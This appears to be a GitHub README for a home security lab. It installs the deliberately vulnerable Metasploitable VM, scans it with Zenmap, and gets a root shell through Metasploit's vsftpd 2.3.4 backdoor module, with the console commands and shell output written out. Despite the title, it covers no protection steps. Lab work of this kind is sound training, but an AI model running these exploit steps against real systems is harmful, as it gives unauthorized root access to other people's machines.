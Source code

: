 # server-side-protection

## Objective

Server side vulnerabilities and finding ways to protect them

### Skills Learned

- Installing Metasploitable on a Mac (silicon)

  

### Tools Used

- Metasploitable
- Zenmap
- metasploit
  

### Steps for Server side vulnerabilities 

- Install Metasploitable in a silicon Mac (M1, M2, M3) using UTM https://www.youtube.com/watch?v=E3IJ_d3rAgA
- msfadmin is the user and password for Metasploitable
- We can scan the IP of the Metasploitable via Zenmap using Intense scan to check what services are open and installed
- We can see the Port/Hosts

<img width="726" alt="image" src="https://github.com/user-attachments/assets/a659b4ae-d059-4454-a76e-27e033a8b3f4" />

- We can use metasploit to check for vulnerabilities and explore them
- To enter the metasploit console we just type **msfconsole**
  
<img width="795" alt="image" src="https://github.com/user-attachments/assets/07fbc7f6-ba7d-4658-8cc1-2fc60589193a" />

-  We search for VSFTPD v2.3.4 exploit online and find the module name
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```
- We can now enter the exploit. We can type **show options** to see what options there is
- We can now change the RHOST to the Metasploitable IP
```bash
set RHOST <IP of Metasploitable>
```

- We can use show options to check the changes
- We then type **exploit** to enter the exploit, we should see command shell session 1 opened
- We can use Linux commands now

```bash
id
uid=0(root) gid=0(root)
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```
- id to see that we are root, the uname is to see our name.
- Any exploit we do use <the exploit> then we show options so we know what we can change

